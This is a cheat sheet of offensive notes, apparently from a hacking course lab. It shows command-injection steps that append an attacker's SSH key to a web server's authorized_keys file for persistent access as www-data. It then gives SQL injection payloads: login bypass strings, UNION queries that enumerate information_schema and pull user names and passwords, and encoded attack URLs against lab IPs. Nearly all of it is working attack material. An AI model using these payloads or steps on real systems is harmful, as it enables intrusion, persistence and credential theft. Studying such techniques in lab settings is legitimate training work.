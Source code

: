 


ssh-keygen -t rsa -b 4096                                                                                        #Generates public ssh key
; mkdir /var/www/.ssh
; ls /var/www/ssh
vim test.txt
cat id_rsa.pub            ##HIGHLIGHT ALL OF IT##
copy to test.txt and addd > /var/www/.ssh/authorized_keys to the end
; echo (cat test.txt and copy over file contents) in quotes
ssh -i id_rsa www-data@10.50.27.157




#SQL INJECTION
  ##COMMANDS
SELECT                    Extracts data from a database
UNION                     Used to COMBINE the result-set of TWO OR MORE SELECT STATEMENTS
USE                       Selects the DB to use
UPDATE                    Updates data in a database
DELETE                    Deletes data from a database
INSERT INTO               Inserts new data into a database
CREATE DATABASE           Creates a new database
ALTER DATABASE            Modifies a database
CREATE TABLE              Creates a new table
ALTER TABLE               Modifies a table
DROP TABLE                Deletes a table
CREATE INDEX              Creates an index (search key)
DROP INDEX                Deletes an index

show databases;           shows databases
SELECT * FROM session.car shows all items within the car subtable of the session table
SELECT * FROM session.car UNION SELECT tireid,name,size,cost,1,2 FROM session.Tires;

shwo TABLES FROM information_schema
Select Table_schema,table_name,Column_name FROM information_schema.Column;
IMPORTANT:
  TABLES
  COLUMNS
  DATABASES/TABLE_SCHEMA

User = ' GySgt' or 1='1'
Pass = 'Pass' or 1='1'

php?key=<value> UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'                               GOLDEN STATEMENT
Audi' UNION select table_schema,2,table_name,column_name,5 FROM information_schema.columns #
Audi' UNION select 1,2,3 #
Audi' UNION select id,2,name,pass,5 FROM session.user #
http://10.50.38.117/uniondemo.php?Selection=2%20or%201=1;%20#
http://10.50.38.117/uniondemo.php?Selection=2%20 UNION select 1,2,3;#
http://10.50.38.117/uniondemo.php?Selection=2%20 UNION select table_schema,column_name,table_name FROM information_schema.columns;#
http://10.50.38.117/uniondemo.php?Selection=2%20%20UNION select type,color,name FROM session.car;#
